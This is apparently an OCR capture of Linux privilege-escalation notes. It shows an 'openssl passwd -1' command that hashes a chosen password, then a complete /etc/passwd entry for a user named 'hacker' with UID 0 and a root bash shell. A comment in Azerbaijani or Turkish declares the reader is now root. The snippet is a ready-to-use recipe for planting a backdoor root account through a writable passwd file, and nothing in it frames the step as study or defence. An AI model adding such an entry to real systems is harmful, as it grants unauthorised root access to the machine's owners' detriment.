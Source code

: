      # openssl passwd -1  hacker pass123
     
   ## hacker:$1$hacker$zVnrpoW2JQO5YUrLmAs.o1/:0:0:root:/root:/bin/bash

   ## sen artiq ROOT'SAN
hacker:$1$hacker$zVnrpoW2JQO5YUrLmAs.o1/:0:0:root:/root:/bin/bash

